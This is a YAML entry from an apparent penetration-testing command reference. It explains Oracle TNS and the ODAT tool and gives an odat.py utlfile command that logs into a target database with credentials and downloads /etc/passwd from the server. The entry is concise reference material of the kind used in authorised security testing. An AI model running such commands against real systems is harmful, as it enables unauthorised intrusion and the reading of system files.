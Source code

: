 ```yaml
---
description: |
  Transparent Network Substrate (TNS), a proprietary Oracle computer-networking technology, supports homogeneous peer-to-peer connectivity on top of other networking technologies such as TCP/IP, SDP and named pipes. TNS operates mainly for connecting to Oracle databases. Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. The following command downloads a file with Oracle RDBMS.

  Command Reference:
    
    Target: 10.10.10.1

    Database: oracle

    User: john

    Password: password123

    Download file: /etc/passwd

    Output file: passwd.txt

command: |
  ./odat.py utlfile -s 10.10.10.1 -d oracle -U john -P password123 --test-module --getFile /etc/ passwd passwd.txt
items:
  - No_Creds
services:
  - TNS
OS:
  - Linux
  - Windows
phases:
  - Enumeration
references:
  - https://github.com/quentinhardy/odat
  - https://en.wikipedia.org/wiki/Transparent_Network_Substrate
---
```

